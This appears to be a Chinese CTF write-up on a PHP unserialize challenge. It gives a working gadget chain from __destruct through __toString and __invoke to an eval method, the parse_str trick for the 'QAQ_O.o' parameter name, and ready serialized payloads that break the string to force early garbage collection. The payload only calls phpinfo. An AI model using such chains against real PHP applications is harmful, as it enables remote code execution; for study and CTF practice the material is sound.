

```php
<?php
    highlight_file(__FILE__);
    class AA{
        public $a;
        public $aa;
        public function __destruct(){
            echo $this->a;
        }
        
        public function __toString(){
            return "hello";
        }
    }
    
    class BB{
        public $b;
        public function __toString(){
            ($this -> b)();
            return "6";
        }
        public function good($c){
            eval($c);
        }
    }
    
    class CC{
        public $c;
        public $cc;
        public function __invoke(){
            ($this->c)($this->cc);
        }
        public function __toString(){
            return "ok,but wrong";
        }
        public function __call($ccc, $cccc){
            call_user_func($ccc,$cccc);
        }
    }
    $a = unserialize($_GET['QAQ_O.o']);
    throw new Error("NoNoNo!Hacker!");
```

exp.php

```php
<?php
    class AA{
        public $a;
        public $aa;
        public function __destruct(){
            echo $this->a;
        }
        
        public function __toString(){
            return "hello";
        }
    }
    
    class BB{
        public $b;
        public function __toString(){
            ($this -> b)();
            return "6";
        }
        public function good($c){
            eval($c);
        }
    }
    
    class CC{
        public $c;
        public $cc;
        public function __invoke(){
            // var_dump($this->c);
            // var_dump($this->cc);
            // ('(new CC())')("phpinfo");
            ($this->c)($this->cc);
        }
        public function __toString(){
            return "ok,but wrong";
        }
        public function __call($ccc, $cccc){
            var_dump($ccc);
            var_dump($cccc);
            call_user_func($ccc,$cccc);
        }
    }
    $a = new AA;
    $a->a = new BB;
    $a->a->b = new CC;
    $b = new BB;
    $a->a->b->c = array($b, "good");
    $a->a->b->cc = 'phpinfo();';
```

这个题目有三个部分需要学习

1. 关于`($this->c)($this->cc);`部分的理解
2. `$_GET['QAQ_O.o']`这种如何传参数，也就是`parse_str()`的解析特性
3. 关于GC垃圾回收机制

## 1. 字符串调用函数

`($this->c)($this->cc);`，如果是`$this->c($this->cc);`，就相当于调用`$this`的`c`函数，如果给前面加上括号，就是调用前面字符串所代表的函数，

在 PHP 中，您可以使用不同的方式来调用函数和类方法，具体取决于您的需求和代码结构。以下是一些常见的方法：

**调用函数：**

1. 直接调用函数名：

   ```
   functionName();
   ```

2. 使用可变函数调用：

   ```
   $functionName = 'functionName';
   $functionName();
   ```

3. 使用 `call_user_func` 函数调用：

   ```
   call_user_func('functionName');
   ```

4. 使用 `call_user_func_array` 函数传递参数调用：

   ```
   call_user_func_array('functionName', [$param1, $param2]);
   ```

**调用类方法：**

1. 实例化对象后调用：

   ```
   $object = new ClassName();
   $object->methodName();
   ```

2. 直接调用静态方法：

   ```
   ClassName::staticMethodName();
   ```

3. 使用可变类调用：

   ```
   $className = 'ClassName';
   $methodName = 'methodName';
   $object = new $className();
   $object->$methodName();
   ```

4. 使用 `call_user_func` 调用类方法：

   ```
   call_user_func([$object, 'methodName']);
   ```

5. 使用 `call_user_func_array` 传递参数调用类方法：

   ```
   call_user_func_array([$object, 'methodName'], [$param1, $param2]);
   ```

这些是一些常见的调用函数和类方法的方式，您可以根据项目需求和代码结构来选择合适的方式。

如果是`$this->c($this->cc);`，就相当于调用了`CC::__call('c', $this->cc)`，加了括号会优先解析括号里的值，就相当于`CC::c`

个人猜测，使用字符串调用函数的方法和`call_user_func`是一样的，如果字符串改为数组，那就和`call_user_func(array, argc)`是一个效果，也就是调用类方法时可以使用`array(new BB(), "good")('phpinfo();');`或者`call_user_func(array(new BB(), "good"), 'phpinfo();');`

## 2. 查询字符串的解析特性

这是因为`parse_str`函数在处理参数字符串时，会将非字母数字字符转换为下划线`_`，但是在处理数组时，它将保留`.`字符。

在你的第一个例子中，`/?Q.Q.Q=1`被`parse_str`解析为一个简单的键值对，其中键是`/?Q.Q.Q`，值是`1`。由于`.`不是字母或数字，所以它被转换为下划线，结果键变为`/?Q_Q_Q`。

在你的第二个例子中，`/?Q[Q.Q=1`被解析为一个数组。在这种情况下，`parse_str`将保留`.`字符，所以键仍然是`/?Q[Q.Q`，值是`1`。这是因为在PHP中，`.`字符在数组的键中是有效的。

所以，这就是为什么在第一个例子中`.`被转换为`_`，而在第二个例子中它被保留的原因。

## 3. GC垃圾回收机制的利用

对这个题目来说，如果正常走反序列化的途径的话，是不会触发`AA::__destruct()`的，因为程序最后抛出了一个错误导致无法触发`__destruct()`，所以需要想法让GC提前回收反序列化的类，从而使`AA::__destruct()`被提前触发，这里有两个思路，第一种是用数组架空，然后修改数组后面的内容使其反序列化的过程报错，从而导致提前垃圾回收，第二种就是正常的反序列化，然后也是修改反序列化字符串，导致其报错从而提前进行垃圾回收



```php
    // 数组架空
	$a = new AA;
    $a->a = new BB;
    $a->a->b = new CC;
    $b = new BB;
    $a->a->b->c = array($b, "good");
    $a->a->b->cc = 'phpinfo();';
    $c = array($a, 123123);
    echo serialize($c);
/*
a:2:{i:0;O:2:"AA":2:{s:1:"a";O:2:"BB":1:{s:1:"b";O:2:"CC":2:{s:1:"c";a:2:{i:0;O:2:"BB":1:{s:1:"b";N;}i:1;s:4:"good";}s:2:"cc";s:10:"phpinfo();";}}s:2:"aa";N;}i:1;i:123123;}
删掉最后的;或者}，又或者在最后的123123里加个字符、删掉数组全部的第二个内容，都可以实现报错提前触发垃圾回收
还可以像绕过wakeup那样，多增加一个元素
a:2:{i:0;O:2:"AA":2:{s:1:"a";O:2:"BB":1:{s:1:"b";O:2:"CC":2:{s:1:"c";a:2:{i:0;O:2:"BB":1:{s:1:"b";N;}i:1;s:4:"good";}s:2:"cc";s:10:"phpinfo();";}}s:2:"aa";N;}}
*/
```

```php
    // 修改反序列化内容
    $a = new AA;
    $a->a = new BB;
    $a->a->b = new CC;
    $b = new BB;
    $a->a->b->c = array($b, "good");
    $a->a->b->cc = 'phpinfo();';
    echo serialize($a);
/*
O:2:"AA":2:{s:1:"a";O:2:"BB":1:{s:1:"b";O:2:"CC":2:{s:1:"c";a:2:{i:0;O:2:"BB":1:{s:1:"b";N;}i:1;s:4:"good";}s:2:"cc";s:10:"phpinfo();";}}s:2:"aa";N;}
可以修改前面的元素数量，也可以修改后面的内容，但是不能与payload有关的部分，例如phpingo()后面的;这种
*/
```

